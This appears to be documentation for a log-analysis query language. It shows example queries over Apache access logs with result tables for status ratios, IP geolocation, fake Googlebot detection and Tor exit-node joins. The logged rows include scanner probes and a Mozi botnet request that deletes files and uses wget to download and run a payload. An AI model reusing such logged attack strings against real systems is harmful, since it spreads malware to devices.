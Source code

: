 # ./view/view_single_file.sx
```jsx
LIST('file:/data/logs/web/access.log')
| parse(pattern:$[./apache_access_log.sxp])
```

| clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                          | extra  |
|-------------------|-----------------|--------|--------|---------------------------------|------|--------------------|------------:|----------------|---------:|------:|---------------------------|----------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36 | *null* |
| `134.119.218.243` | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36  | *null* |
| `162.243.143.216` | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                          | *null* |
....

# ./view/view_indexed_by_pathtime.sx
```jsx
INIT(from:now()[-14 day], to:now());

LIST('sas://remote/logs/apache/$yyyy$/$MM$/$dd$/$yyyy$-$MM$-$dd$_*access.log')
| filter(path_time >= $from[-1 day] AND path_time <= $to)
| parse(pattern:$[./apache_access_log.sxp])
| filter(timestamp >= $from AND timestamp <= $to)
```
| clientIp         | host           | ident  | auth   | timestamp                       | verb | uri          | httpversion | invalidRequest | response | bytes | referrer | agent       | extra  |
|------------------|----------------|--------|--------|---------------------------------|------|--------------|------------:|----------------|---------:|------:|----------|-------------|--------|
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:25:01.000 +0300` | GET  | /            |         1.1 | *null*         |      200 |  2120 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:37:21.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |   437 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:50:14.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |  2320 | ‑        | curl/7.69.1 | *null* |
....

# query_hits_by_status_range.sx
```jsx
@[./view/view_default.sx]
| select(
  day:timestamp[1 day],
  total:count(*),
  status_200:count(response=200),
  status_1xx:count(response between 100 and 199),
  status_2xx:count(response between 200 and 299),
  status_3xx:count(response between 300 and 399),
  status_4xx:count(response between 400 and 499),
  status_5xx:count(response between 500 and 599)
)
| group(day)
| select(*, fail_4xx_ratio:ROUND(10000.0*status_4xx/total)/100.0)
```

| day                             | total | status_200 | status_1xx | status_2xx | status_3xx | status_4xx | status_5xx | fail_4xx_ratio |
|---------------------------------|------:|-----------:|-----------:|-----------:|-----------:|-----------:|-----------:|---------------:|
| `2020‑06‑01 00:00:00.000 +0300` |    70 |         44 |          0 |         44 |          0 |         26 |          0 |          37.14 |
| `2020‑06‑02 00:00:00.000 +0300` |   148 |         99 |          0 |         99 |          0 |         49 |          0 |          33.11 |
| `2020‑06‑03 00:00:00.000 +0300` |   114 |         88 |          0 |         88 |          0 |         26 |          0 |          22.81 |
| `2020‑06‑04 00:00:00.000 +0300` |  1091 |         80 |          0 |         80 |          0 |       1010 |          1 |          92.58 |
| `2020‑06‑05 00:00:00.000 +0300` |  1098 |        101 |          0 |        101 |          0 |        996 |          1 |          90.71 |
...

# query_clientip_metainfo.sx
```jsx
@[./view/view_default.sx]
| select(clientIp, cc(clientIp), asname(clientIp), geo(clientIp), *)
```

| clientIp          | cc | asname                          | geo               | host            | ident  | auth   | timestamp                       | verb | uri                                                                                           | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                               | extra  |
|-------------------|----|---------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|-----------------------------------------------------------------------------------------------|------------:|----------------|---------:|------:|---------------------------|---------------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | US | AS63949 Linode, LLC             | 37.5625,‑122.0004 | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36      | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `162.243.143.216` | US | AS14061 DIGITALOCEAN‑ASN        | 37.7353,‑122.3732 | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list                                                                            |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                               | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:52:36.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `185.172.111.210` | NL | AS206898 Server Hosting Pty Ltd | 52.3824,4.8995    | 185.172.111.210 | *null* | *null* | `2020‑06‑01 08:05:34.000 +0300` | POST | /GponForm/diag_Form?style/                                                                    |         1.1 | *null*         |      404 |  1989 | ‑                         | curl/7.3.2                                                                                                          | *null* |
| `223.149.176.156` | CN | AS4134 Chinanet                 | 25.2239,112.1703  | 223.149.176.156 | *null* | *null* | `2020‑06‑01 08:10:23.000 +0300` | GET  | /shell?cd+/tmp;rm+‑rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws |         1.1 | *null*         |      404 |   493 | ‑                         | Hello, world                                                                                                        | *null* |
...

# query_top_countries.sx
```jsx
@[./view/view_default.sx]
| select(count(*), cc(clientIp))
| group(cc)
| sort(count desc)
```

| count | cc |
|------:|----|
|  4743 | CN |
|  4165 | US |
|  1937 | RU |
|  1837 | TW |
|  1115 | GB |
...

# query_find_fake_google_bots.sx
```jsx
@[./view/view_default.sx]
| select(ASN(clientIp), *)
| filter(  agent like '%Googlebot/%'
		or agent like 'AdsBot-Google/%'
		or agent like '%AdsBot-Google-Mobile;%'
		or agent like '%Google-Ads-Overview%'		
		)
| filter_out(asn = 15169)		
| select(asname(clientIp), geo(clientIp), cc(clientIp), agent, *)
```

| asname                      | geo            | cc | agent                                                                    |   asn | clientIp       | host         | ident  | auth   | timestamp                       | verb | uri      | httpversion | invalidRequest | response | bytes | referrer | extra  |
|-----------------------------|----------------|----|--------------------------------------------------------------------------|------:|----------------|--------------|--------|--------|---------------------------------|------|----------|------------:|----------------|---------:|------:|----------|--------|
| AS64425 SKB Enterprise B.V. | 52.3759,4.8975 | NL | Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html) | 64425 | `5.182.210.16` | 5.182.210.16 | *null* | *null* | `2020‑08‑07 15:44:40.000 +0300` | GET  | /api.php |         1.1 | *null*         |      404 |   437 | ‑        | *null* |

# query_top_response_len.sx
```jsx
@[./view/view_default.sx]
| select(timestamp, clientIp, verb, bytes, uri, *)
| sort(bytes desc)
| limit(50)
```

| timestamp                       | clientIp         | verb   |      bytes | uri                    | host           | ident  | auth   | httpversion | invalidRequest | response | referrer | agent                                                                        | extra  |
|---------------------------------|------------------|--------|-----------:|------------------------|----------------|--------|--------|------------:|----------------|---------:|----------|------------------------------------------------------------------------------|--------|
| `2020‑06‑04 23:43:13.000 +0300` | `183.83.145.187` | GET    | 6529322873 | /secret1337/backup.tgz | 183.83.145.187 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 | *null* |
| `2020‑06‑13 20:36:48.000 +0300` | `172.105.89.161` | GET    |  239233441 | /secret1337/mysql.sql  | 172.105.89.161 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 zgrab/0.x                                                        | *null* |
| `2020‑06‑25 20:22:14.000 +0300` | `217.18.21.2`    | *null* |       3681 | *null*                 | 217.18.21.2    | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑25 15:59:32.000 +0300` | `90.191.124.115` | *null* |       3665 | *null*                 | 90.191.124.115 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
...

# join_with_tor_exit_nodes.sx
```jsx
@[./view/view_default.sx]
| leftjoin(@[../tor_exit_nodes/view_cached.sx] ON left.clientIp = right.tor_ip)
| filter(tor_ip is not null)
| select(tor_ip, tor_time, tor_id, *)
```

| tor_ip            | tor_time                        | tor_id                                   | clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer | agent                                                                                                              | extra  |
|-------------------|---------------------------------|------------------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|----------|--------------------------------------------------------------------------------------------------------------------|--------|
| `185.220.102.6`   | `2020‑08‑12 13:23:50.000 +0300` | A2DB293FFC5A76A718863BF1AEDBC8DFB1CB1097 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.220.102.6`   | `2020‑08‑12 12:57:46.000 +0300` | A2534EF23390CAE079B1586F0FDF9CE11F556062 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |  1813 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   520 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `185.220.101.203` | `2020‑08‑12 13:06:15.000 +0300` | C8F6F6C1834454F1E927A4A05E8E54EB623D4B73 | `185.220.101.203` | 185.220.101.203 | *null* | *null* | `2020‑06‑19 20:26:05.000 +0300` | GET  | /async/                   |         1.1 | *null*         |      404 |   493 | ‑        | Mozilla/5.0 (Windows ME 4.9; rv:31.0) Gecko/20100101 Firefox/31.7                                                  | *null* |
...

